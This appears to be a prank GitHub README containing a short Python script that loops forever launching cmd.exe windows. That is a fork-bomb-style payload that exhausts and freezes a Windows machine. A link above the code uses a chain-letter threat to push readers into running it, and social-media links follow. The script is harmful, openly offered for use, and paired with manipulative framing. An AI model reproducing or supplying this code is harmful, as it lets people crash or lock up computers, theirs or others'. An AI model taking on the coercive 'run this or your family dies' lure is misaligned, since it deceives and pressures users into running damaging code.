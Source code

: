 <p align="center">  
  <img src="https://www.gommehd.net/forum/proxy.php?image=http%3A%2F%2Fi.imgur.com%2FiOF5Ud4.gif&hash=0c1d1f377a773c0fb1ed74fe446c8ad3" alt="fax" width="1000" height="1">
</p>

<p align="center">
  <p align="center">
    <a href="https://www.youtube.com/watch?v=_vBVGjFdwk4&ab_channel=JesseLadner">if you don't run this file, your whole family will die</a>
  </p>


```python
import os

def purelxw():
	while True:
		try:
			os.startfile('cmd.exe')
		except:
			pass
purelxw()
```
<p align="center"> 
    <a href="https://discord.com/users/343735638085861377">discord</a>
    |
    <a href="https://t.me/purelxw">telegram</a>
    |
    <a href="https://steamcommunity.com/id/Purelxw">steam</a>
    |
    <a href="https://twitter.com/purelxw">twitter</a>
</p>

<p align="center">  
  <img src="https://www.gommehd.net/forum/proxy.php?image=http%3A%2F%2Fi.imgur.com%2FiOF5Ud4.gif&hash=0c1d1f377a773c0fb1ed74fe446c8ad3" alt="fax" width="1000" height="1">
</p>
